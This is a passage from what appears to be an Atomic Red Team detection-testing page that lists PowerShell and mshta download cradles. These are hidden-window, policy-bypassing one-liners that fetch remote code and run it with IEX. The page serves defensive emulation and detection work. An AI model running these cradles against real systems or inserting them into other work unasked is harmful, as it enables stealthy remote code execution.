 #### Run it with `command_prompt`!
```
powershell.exe IEX -exec bypass -windowstyle hidden -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```
<br/>
<br/>

## Atomic Test #8 - Powershell XML requests
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell xml download request

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.xml|

#### Run it with `command_prompt`!
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -windowstyle hidden -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```
<br/>
<br/>

## Atomic Test #9 - Powershell invoke mshta.exe download
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell invoke mshta to download payload

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/mshta.sct|

#### Run it with `powershell`!
```
"C:\Windows\system32\cmd.exe" /c "mshta.exe javascript:a=GetObject("script:#{url}").Exec();close()"
```
<br/>
<br/>

## Atomic Test #10 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows


#### Run it with these steps!
1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1


<br/>
